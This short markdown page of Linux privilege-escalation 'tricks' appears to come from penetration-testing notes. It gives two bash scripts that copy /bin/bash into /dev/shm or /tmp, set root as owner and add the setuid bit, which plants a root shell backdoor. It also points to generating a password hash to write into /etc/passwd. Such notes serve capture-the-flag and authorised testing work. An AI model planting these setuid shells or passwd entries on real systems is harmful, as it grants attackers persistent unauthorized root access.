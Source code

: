 # Tricks

Checking `syslog` is particularly useful when exploits dont work as intended

Living in `/dev/shm/` (`/dev/shm` is RAM)

```bash
#!/bin/bash
cp /bin/bash /dev/shm/bash
chown root:root /dev/shm/bash
chmod u+s /dev/shm/bash
```

Living in `/tmp/`

```bash
#!/bin/bash
cp /bin/bash /tmp/bash
chown root:root /tmp/bash
chmod u+s /tmp/bash
```

Generate a password for `/etc/passwd` with [openssl](../Tools/Encryption/openssl.md)
